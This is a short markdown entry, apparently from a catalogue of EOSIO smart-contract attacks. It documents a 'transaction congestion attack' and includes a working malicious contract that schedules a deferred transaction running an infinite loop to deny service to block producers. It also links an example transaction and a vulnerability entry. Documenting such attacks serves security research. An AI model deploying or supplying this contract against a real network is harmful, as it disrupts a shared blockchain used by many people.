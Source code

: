 ## Description

This attack is named as `transaction congestion attack`. In EOSIO, deferred transactions originally have the top priority to ensure they are executed on time. Therefore, attackers can abuse this feature to paralyze the whole network.

## Attack instance

The below code snippet illustrates a malicious contract:

```c++
[[eosio::action]]
void deferred(name from, const string message) {
  while(true) {}
}

[[eosio::action]]
void send(name from, const string message, uint64_t delay) {
  eosio::transaction t{};

  t.actions.emplace_back(
    permission_level(from, N(active)),
    _self,
    N(deferred),
    std::make_tuple(from, message));
  
  // set delay in seconds
  t.delay_sec = delay;
  t.send(now(), from);
}
```

As we can see, the *send* will invoke *deferred*, where it executes a dead loop. Therefore, BPs will suffer the denial-of-service.

The following transaction illustrates the attack behavior:
- [tx1](https://eosq.app/block/02344b09116e94221737ae411c4ecd37f9da2778e0612a6d5f956edba9a12061)

## Corresponding vulnerability

[V11 (top-priority deferred transaction)](../vulnerabilities/v11.md)
